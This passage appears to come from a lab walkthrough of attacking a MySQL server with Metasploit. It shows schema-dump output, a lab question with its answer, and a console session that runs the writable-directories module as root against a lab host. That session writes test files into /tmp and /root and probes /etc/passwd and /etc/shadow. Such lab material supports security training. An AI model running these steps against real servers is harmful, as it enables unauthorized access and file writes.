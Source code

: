 ```
      ColumnType: timestamp
- DBName: data
  Tables: []
- DBName: password
  Tables: []
- DBName: secret
  Tables: []
- DBName: store
  Tables: []
- DBName: upload
  Tables: []
- DBName: vendors
  Tables: []
- DBName: videos
  Tables: []

[*] 192.41.63.3:3306      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

How many directories present in the /usr/share/metasploit-framework/data/wordlists/directory.txt, are writable? List the names.

`/tmp, /root`

[MYSQL Directory Write Test](https://www.rapid7.com/db/modules/auxiliary/scanner/mysql/mysql_writable_dirs/)

MYSQL 目录写测试

使用 MySQL SELECT INTO DUMPFILE 功能枚举可写目录，有关更多信息，请参阅参考资料中的 URL。注意：对于找到的每个可写目录，将写入包含文本 test 的具有指定 FILE_NAME 的文件。

```
msf5 auxiliary(scanner/mysql/mysql_schemadump) > use auxiliary/scanner/mysql/mysql_writable_dirs
msf5 auxiliary(scanner/mysql/mysql_writable_dirs) > show options

Module options (auxiliary/scanner/mysql/mysql_writable_dirs):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DIR_LIST                    yes       List of directories to test
   FILE_NAME  kFhBymFR         yes       Name of file to write
   PASSWORD                    no        The password for the specified username
   RHOSTS     192.41.63.3      yes       The target address range or CIDR identifier
   RPORT      3306             yes       The target port (TCP)
   THREADS    1                yes       The number of concurrent threads
   USERNAME   root             yes       The username to authenticate as

msf5 auxiliary(scanner/mysql/mysql_writable_dirs) > set DIR_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt
DIR_LIST => /usr/share/metasploit-framework/data/wordlists/directory.txt
msf5 auxiliary(scanner/mysql/mysql_writable_dirs) > run

[!] 192.41.63.3:3306      - For every writable directory found, a file called kFhBymFR with the text test will be written to the directory.
[*] 192.41.63.3:3306      - Login...
[*] 192.41.63.3:3306      - Checking /tmp...
[+] 192.41.63.3:3306      - /tmp is writeable
[*] 192.41.63.3:3306      - Checking /etc/passwd...
[!] 192.41.63.3:3306      - Can't create/write to file '/etc/passwd/kFhBymFR' (Errcode: 20)
[*] 192.41.63.3:3306      - Checking /etc/shadow...
[!] 192.41.63.3:3306      - Can't create/write to file '/etc/shadow/kFhBymFR' (Errcode: 20)
[*] 192.41.63.3:3306      - Checking /root...
[+] 192.41.63.3:3306      - /root is writeable
[*] 192.41.63.3:3306      - Checking /home...
```